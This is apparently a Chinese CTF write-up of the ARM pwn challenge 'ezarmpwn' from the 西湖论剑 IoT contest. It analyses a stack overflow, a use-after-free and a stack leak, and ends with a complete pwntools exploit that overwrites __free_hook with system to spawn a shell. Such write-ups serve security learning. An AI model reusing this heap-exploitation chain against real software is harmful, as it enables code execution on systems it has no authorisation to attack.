```yaml
---
layout: post
title: 西湖论剑IoT闯关赛复现
description: 有幸参加西湖论剑的比赛，虽然比赛结果不太理想，但每次比赛都会有很大的收获，我决定将这些东西写下来作为分享，如果有错误请批评指正
categories:  IoT
---
```










<!-- more -->

### ezarmpwn

#### 分析程序

首先查看程序保护机制

32位程序

libc是2.30

没有canary（基本是栈溢出）

无PIE(果然ez)

![](/images/character13/ezarmpwn1.png)

#### 静态分析

**register**

输入的username长度没有限制，然后复制到dest上,可实现栈溢出

![](/images/character13/ezarmpwn2.png)

---



**Add函数** 

可添加 size<=0x70的heap（tcache,fastbin)

![](/images/character13/ezarmpwn4.png)

---

**Delete**

UAF漏洞

![](/images/character13/ezarmpwn5.png)

---

**modify**

修改dest，由于dest是0x40大小，可以溢出0x8个字节,同时注意到buf是没有初始化的，我们可以通过这个泄漏栈里面的数据

![](/images/character13/ezarmpwn6.png)

---

**Info**

info打印username和password



#### 利用分析

1.泄漏地址

由于程序有个printf打印username和passwd,可通过将\x00覆盖得到想要的地址

通过分析username可以泄漏地址，分析passwd得知通过modify函数可以泄漏libc

* 0xfffef084是passwd的地址,可以看到里面有libc的地址![](/image/character13/ezarmpwn7.png)

2.利用分析

* 栈溢出控制返回地址

* UAF漏洞(tcache,fastbin,unsortedbin) **这里是32位系统，fastbin大小是0-0x50** 

  由于版本是libc-2.30.so

  而且我们只能使用add和free,所以tcache bin attack无法完成

  如果是fastbin attack也不行，因为只能申请 0xf 次

  但是我们可以用 overchunk 的思想

  通过合并堆块0和1之后再分配一个大的堆块2(unsortedbin的大小)，这样就可以伪造堆块1了

  由于是UAF，所以free掉堆块1就可以进入tcache了

  然后free掉堆块2，再分配一次可以将tcache改为free_hook就可以分配进去了

#### exp

```c

from pwn import *


context.log_level="debug"
def info():
   p.sendlineafter("> ","2")


def play():
   p.sendlineafter("> ","1")


def add(index,size,note):
   play()
   p.sendlineafter("> ","1")
   p.sendafter(": ",str(index))
   p.sendlineafter(": ",str(size))
   p.sendafter(": ",note)


def delete(index):
   play()
   p.sendlineafter("> ","2")
   p.sendlineafter(": ",str(index))
   
p=process(["qemu-arm","-g","1234","-L",".","./pwn3"])
#p = remote("20.20.11.14", 9999)


un="aaaaa"
pd1="bbbbb"
pd2="bbbbb"
p.sendlineafter(":",un)
p.sendlineafter(":",pd1)
p.sendlineafter(":",pd2)
p.sendline("")


p.sendlineafter("> ","3")
p.sendlineafter(":","a"*0x20)
p.sendline("")


info()
p.recvuntil(": ")
libc=u32(p.recv(4))+0xff69cba0-0x044ba0-0xff68a248
# print hex(libc)


for i in range(9):
   add(i,0x40,"aaaa\n")
add(15,6,"a\n") #0x10
add(14,6,"a\n") #0x10
delete(15) 
delete(14) #tcache[0x10]=14->15
for i in range(9):
   delete(8-i) #fastbin=0->1 
free_hook = libc + 0x1479cc
system    = libc + 0x3a028
add(9,0x70,"a"*0x40+p32(0)+p32(0x11)+p32(0)*3+p32(0x39)+"\n") #overchunk
delete(1) #tcache[0x10] = 1->14->15
delete(9)  
add(10,0x70,"a"*0x40+p32(0)+p32(0x11)+p32(free_hook)*3+p32(0x39)+p32(libc+0x1479cc)+"\n")
add(11,8,"/bin/sh\x00")
add(12,8,p32(libc+0x3a028)+"\n")
# print hex(libc+0x1479cc)
delete(11)
p.interactive()
```

#### 参考

exp参考chamd5的wp,如果分析有错请批评指正

邮箱:VinadiakT@outlook.com



